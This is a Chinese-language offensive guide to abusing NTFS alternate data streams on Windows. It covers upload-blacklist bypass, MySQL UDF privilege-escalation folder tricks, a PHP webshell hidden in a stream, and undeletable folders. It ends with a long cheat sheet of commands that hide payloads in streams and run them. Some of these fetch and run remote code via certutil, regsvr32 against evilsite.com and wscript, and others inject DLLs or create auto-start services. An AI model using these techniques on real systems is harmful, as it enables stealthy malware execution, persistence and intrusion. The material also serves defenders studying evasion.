- [NTFS 利用总结](#ntfs-利用总结)
  - [NTFS Alternate Streams](#ntfs-alternate-streams)
  - [## **创建文件夹**](#-创建文件夹)
    - [**实际利用**](#实际利用)
      - [**UDF提权**](#udf提权)
  - [## **绕过HTTP BASIC认证**](#-绕过http-basic认证)
  - [## **bypass黑名单**](#-bypass黑名单)
  - [## **执行程序**](#-执行程序)
    - [**二进制程序**](#二进制程序)
    - [**DLL**](#dll)
  - [## **隐藏webshell**](#-隐藏webshell)
  - [## **创建"找不到"和无法删除的文件夹**](#-创建找不到和无法删除的文件夹)
  - [## **隐藏数据流**](#-隐藏数据流)
- [**ADS 添加 导出 执行方法清单**](#ads-添加-导出-执行方法清单)
# NTFS 利用总结
## NTFS Alternate Streams
[微软官方文档](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/c54dec26-1551-4d3a-a0ea-4fa40f848eb3)  
</br>
```
NTFS(NT file system):微软的独有文件系统,[详情](https://go.microsoft.com/fwlink/?LinkId=90200)
NTFS ADS(Alternate Data Streams):NTFS 备用数据流
```
在NTFS文件系统上的文件都包含至少一个流,一个完整的流全名如下
```
<filename>:<stream name>:<stream type> <-> 文件名:流名称:流类型
```
默认的数据流没有流名称,默认为空,只有流类型默认为$DATA,如1.txt的流全名为
```
1.:txt::$DATA <-> 文件名(1.txt):空:默认流类型($DATA)
```
用户可以自己命名文件的流名称,而且正常文件名的任何合法字符对于流名称(包括空格)都是合法的  
对于目录来说没有数据流但是有目录流,并且其默认流名称为\$I30,默认流类型为$INDEX_ALLOCATION
```
目录名:$I30:$INDEX_ALLOCATION
```

NTFS上的内部使用的流名称都是$开头,当前使用的内部流名称如下:
NTFS Internal Stream Names | Example
-|-
$I30|Default name for directory streams C:\Users:\$I30:$INDEX_ALLOCATION
$O|\\\$Extend\$ObjId:\$O:$INDEX_ALLOCATION
$Q|\\\$Extend\$Quota:\$Q:$INDEX_ALLOCATION
$R|\\\$Extend\$Reparse:\$R:$INDEX_ALLOCATION
$J|\\\$Extend\$UsnJrnl:\$J:$DATA
$MAX|\\\$Extend\$UsnJrnl:\$MAX:$DATA
$SDH|\\\$Secure:\$SDH:$INDEX_ALLOCATION
$SII|\\\$Secure:\$SII:$INDEX_ALLOCATION
NTFS使用的流类型一共三种
NTFS Stream Types|
-|
\$DATA|  
\$INDEX_ALLOCATION|  
\$BITMAP|
</br>

还有一些已知的备用流名称,[具体参考](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/4f3837c4-2f96-40d7-b0bf-80dd1d0b0da0)
```
Zone.Identifier
OECustomProperty
encryptable
...
...
```
主数据流在文件创建的同时就被创建了而备用数据流是可以手动创建的,使用dir /r命令即可查看备用流,而ADS也常被用来存储一些标识信息,如从网上下载的文件系统会自动添加一个名称为Zone.Identifier的ADS来标识来源为互联网并在该文件执行时弹出告警框  
</br>
查看ADS的内容可以使用`notepad test.exe:Zone.Identifier`或者powershell的`getGet-Content test.exe -stream Zone.Identifier`
</br>

[文件流参考](https://docs.microsoft.com/zh-cn/windows/win32/fileio/file-streams)  
</br>

[C++使用流的例子](https://docs.microsoft.com/zh-cn/windows/win32/fileio/using-streams)

## **创建文件夹**
---
绕过权限限制,在拒绝创建子文件夹但可以创建文件的文件夹中利用创建文件时手动添加数据流类型为文件夹对应的$INDEX_ALLOCATION类型创建文件夹绕过   
</br>

 
</br>  


### **实际利用**
#### **UDF提权**
MYSQL版本大于5.1时需要放在mysql目录的lib\plugin文件目录,而默认该目录不存在,当无权限创建该文件夹时使用ADS来创建(但测试phpstudy集成环境的mysql各版本均无法创建文件夹,)  
</br>
```sql
select "test" into outfile D:\\mysql\lib::$INDEX_ALLOCATION
```     
  
</br>  
会报错,但是lib文件夹已经被创建了,同理可继续创建plugin目录  
  

## **绕过HTTP BASIC认证**
---
据说在IIS6.0+PHP IIS7.5+(PHP/ASP)上如果对某个目录设置了HTTP BASIC认证的话可以通过/test::$INDEX_ALLOCATION/index.php绕过认证访问  
</br>
</br>
但本地在08 IIS7.5上测试失败,会提示404,数据流并没有被解析  
</br>  



## **bypass黑名单**
---
程序检测文件名中最后一个出现.的位置,并将其到末尾的字符串作为后缀名来检测黑名单,那么通过添加默认数据流类型即可bypass该黑名单,程序获取到的后缀会是`php::$DATA`而非`php`。  
</br>  
  
</br>  
</br>
</br>
但文件落地时的后缀仍是php  

## **执行程序**
---
利用type命令把程序写入到文件的数据流名称中,再通过使用该文件的完整流名称来调用隐藏的程序,有很多方法从ADS中来执行恶意程序,包括二进制,vbs,dll,reg等等
</br>

[执行命令清单](#ads-%e6%b7%bb%e5%8a%a0-%e5%af%bc%e5%87%ba-%e6%89%a7%e8%a1%8c%e6%96%b9%e6%b3%95%e6%b8%85%e5%8d%95)

### **二进制程序**
触发方式:start wmic ...
将二进制程序隐藏在数据流名称中,在xp和03下可以直接通过start运行在ADS中的二进制程序,后续版本则不能通过ADS执行程序  




但在win7,08下测试虽然不能直接通过start运行(strat执行会提示找不到文件),但还是可以通过wmic进行调用运行  

  

### **DLL**
触发方式:control.exe rundll32.exe Mavinject.exe   
将恶意dll隐藏到正常文件夹的流中,通过control.exe 来执行dll  
</br>

  
  
</br>


## **隐藏webshell**
---
php的include函数可以正常解析数据流中的信息,可以将一句话加到某个正常页面文件的数据流中,再通过include进行包含解析  
正常文件:config.php
```php
<?php
...
...
...
?>
```
将payload加入正常文件数据流中(^为转义字符)`echo ^<?php phpinfo();?^> >config.php:payload.php`  
在另一个info.php文件使用include包含
```php
<?php
    include 'config.php:payload.php'
?>
```
访问info.php即可
</br>


通过`notepad config.php:payload.php即可看到内容`  


## **创建"找不到"和无法删除的文件夹**
---
windows无法创建带.的文件夹名称,但通过指定数据流类型可创建带.的文件夹  
  
</br>

还可以通过双写的方式来创建带.的文件夹,会创建一个....的文件夹且里面还会包含一个....文件夹  
  
且这种方式创建的文件夹需要通过`cd ....\....`才能进入第一个....文件夹
  
在该文件夹下创建的文件无法通过鼠标手动打开查看内容(直接打开会提示找不到路径,且页面显示为空)和删除(找不到项目位置),可以通过  
  
   
但可以通过type和del进行查看和删除该文件夹下的文件  
   
这种创建的文件夹路径逻辑是混乱的,比如`cd .`即可返回初始文件夹路径,且存在死循环,例如查看test文件下会发现文件夹的大小会无限循环增加   
例如只要等30s这个文件夹的大小就已经到了一个TB多了
   
导致的情况就是该文件夹会无法删除,可能时系统会一直无限计算其大小并会导致资源管理器崩溃  
  
</br>

   
</br>

## **隐藏数据流**
---
通过结合创建带.的文件可以使得在`dir /r`下也无法查看到数据流信息  

  
</br>

通过wmic触发  
     
</br>

且无法直接被删除,会一直提示文件被占用  
   
</br>

正常情况下windows会自动删除文件名中的空格,但可以通过ADS创建带空格的文件夹  
通过该方式创建的文件夹正常情况会无法打开,只有通过`cd "test. .::$INDEX_ALLOCATION"`才能进入  
   
</br>

   
</br>

   

# **ADS 添加 导出 执行方法清单**
参考:[从ADS中执行程序的方法汇总](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)
```
###Add content to ADS###
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
esentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /o
powershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"
curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.exe
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat

###Extract content from ADS###
expand c:\ads\file.txt:test.exe c:\temp\evil.exe
esentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /o

###Executing the ADS content###

* WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

* Rundll32
rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMain
rundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dll
rundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll

* Cscript
cscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"

* Wscript
wscript c:\ads\file.txt:script.vbs
echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js

* Forfiles
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"

* Mavinject.exe
c:\windows\SysWOW64\notepad.exe
tasklist | findstr notepad
notepad.exe                   4172 31C5CE94259D4006           2     18,476 K
type c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"
c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"

* MSHTA
mshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"
(Does not work on Windows 10 1903 and newer)

* Control.exe
control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll
https://twitter.com/bohops/status/954466315913310209

* Create service and run
sc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

* Powershell.exe
powershell -ep bypass - < c:\temp:ttt

* Powershell.exe
powershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"

* Powershell.exe
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}

* Regedit.exe
regedit c:\ads\file.txt:regfile.reg

* Bitsadmin.exe
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile

* AppVLP.exe
AppVLP.exe c:\windows\tracing\test.txt:ha.exe

* Cmd.exe
cmd.exe - < fakefile.doc:reg32.bat
https://twitter.com/yeyint_mth/status/1143824979139579904

* Ftp.exe
ftp -s:fakefile.txt:aaaa.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* ieframe.dll , shdocvw.dll (ads)
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* bash.exe
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* Regsvr32
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```